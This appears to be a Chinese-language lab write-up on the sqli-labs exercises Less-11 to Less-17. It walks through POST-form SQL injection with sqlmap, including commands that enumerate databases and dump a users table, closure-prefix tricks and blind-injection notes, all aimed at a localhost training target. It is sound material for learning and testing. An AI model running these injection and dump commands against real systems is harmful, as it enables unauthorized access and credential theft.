

## Less-11

和 Less1~10 最大区别：Less11 是POST型注入(登录框，username/password 参数)，没有 URL 参数`？id=`，必须用`--data`携带表单提交内容，只给 URL 扫不出来注入点

`python sqlmap.py -u "http://localhost/Less-11/" --data="uname=test&passwd=test&submit=Submit"`

`--data`：POST 表单数据，参数`uname`、`passwd`、`submit`从前端表单name属性 / 抓包获取，`submit=Submit`是按钮 value 值，只标记表单提交，一般不存在注入。

`python sqlmap.py -u "http://localhost/Less-11/" --data="uname=test&passwd=test&submit=Submit" --dbs`

`python sqlmap.py -u "http://localhost/Less-11/" --data="uname=test&passwd=test&submit=Submit" -D security --tables`

`python sqlmap.py -u "http://localhost/Less-11/" --data="uname=test&passwd=test&submit=Submit" -D security -T users --columns`

`python sqlmap.py -u "http://localhost/Less-11/" --data="uname=test&passwd=test&submit=Submit" -D security -T users --dump`

## Less-12

同Less-11

## Less-13

无数据回显，只有登录成功 / 失败提示
所以联合查询（UNION）在这里无法利用，sqlmap 主要依靠报错注入、布尔 / 时间盲注来拿数据。

## Less-14

同Less-13

## Less-15

无报错回显，只显示登录成功 / 失败图片，无法使用报错注入，只能布尔盲注、时间盲注

# Less-16

Less16 的闭合是 `")`，属于相对特殊的闭合形式，默认探测等级比较低的时候 sqlmap自动识别不出这套闭合，直接判定无注入。

方法一：`python sqlmap.py -u "http://localhost/Less-16/" --data="uname=test&passwd=test&submit=Submit" --level=5 --risk=3`

`level` 越高，尝试的闭合、payload 种类越多；`risk` 越高，越敢用破坏性 payload。

缺点：发包量大、跑的慢。

方法二：手工注入找闭合方式：
输入 `' `, `"`, `')`, `")`

`python sqlmap.py -u "http://localhost/Less-16/" --data="uname=test&passwd=test&submit=Submit" --prefix='")'`

## Less-17

密码重置功能，先查询用户是否存在，再更新密码，用户名会做过滤处理，无法注入，注入点不在 uname，而是passwd参数。

需用户名存在，故uname需改为真正存在的用户名，如admin,其他不变

前面的所有步骤都能正常进行，最后一步输出账号密码时出现错误

updatexml 这类报错注入，只适合用来一次性带出单条函数返回值（库名、表名、字段名），不适合直接遍历导出整张表多行数据。